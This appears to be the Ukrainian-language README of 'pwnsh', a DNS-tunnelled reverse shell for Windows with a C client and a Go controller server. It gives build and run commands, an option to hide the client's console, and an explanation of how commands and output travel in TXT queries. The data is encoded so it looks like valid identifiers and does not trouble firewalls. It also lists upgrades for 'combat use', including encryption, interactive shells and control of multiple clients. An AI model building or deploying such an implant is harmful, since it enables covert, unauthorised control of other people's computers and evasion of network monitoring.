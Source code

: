 # pwnsh

Reverse shell over DNS для Windows (Pwn-Shell!)

Автор - Андрій "Андерсон" Дунай.

Ліцензія - [WTFPL](http://www.wtfpl.net/).

## Компоненти

- `client` - клієнтська аплікація на C, будується за допомогою MinGW.

  Не залежить від `libstdc++` для покращення переносності і зменшення розміру бінарника (жодних векторів та new/delete - тільки stdlib, тільки олдскул!)

  Фінальний бінарник після `strip` займає <50 КБ.

  Збірка та запуск:

  ```sh
  $ cd client
  $ make
  $ # або:
  $ make DNS_SERVER=127.0.0.1 DNS_POLL_INTERVAL=1000
  $ # Щоб приховати консоль, потрібно також додати SHOW_CONSOLE=0 до make
  $ ./pwnsh.exe
  ```

- `server` - імплементація контролера для клієнта. Написана на Go.

  Збірка та запуск:

  ```sh
  $ cd server
  $ go run . 0.0.0.0:53
  $ # для побудови бінарника:
  $ go build .
  ```

## Як це працює

Клієнт здійснює полінг DNS-сервера за допомогою TXT-запитів. Хост в запиті - це дані, які клієнт хоче передати серверу. Відповідь - це дані, які сервер хоче передати клієнту.

Якщо клієнт не має жодних даних для сервера, він надсилає пустий TXT-запит.

Якщо сервер не має команд для клієнта, які очікують виконання, то він надсилає пусту TXT-відповідь.

Всі дані кодуються в base64 з деякими модифікаціями (`_-` замість `+/`), щоб виглядати як валідні ідентифікатори і не дратувати фаєрволи.

Пусті запити містять лише крапку (`DnsQuery_A` автоматично дописує її в кінці хоста в кожному запиті).

## Речі, які можна легко вдосконалити

- Я звик писати коментарі і логи англійською мовою, тому в цьому коді буде суміш англійської та української мов.
- Дані не шифруються. Перед бойовим використанням варто було б використати принаймні якийсь симетричний алгоритм.
- Як і вказано в завданні, кожна команда запускається в окремій оболонці.
  Проте було б нескладно додати можливість використання оболонки в інтерактивному режмиі впродовж тривалішого часу - це б спростило навігацію по системі.
- Поточна імплементація сервера розрахована на єдиного активного клієнта. Можна додати можливість обирати, якому з клієнтів надсилати команду.
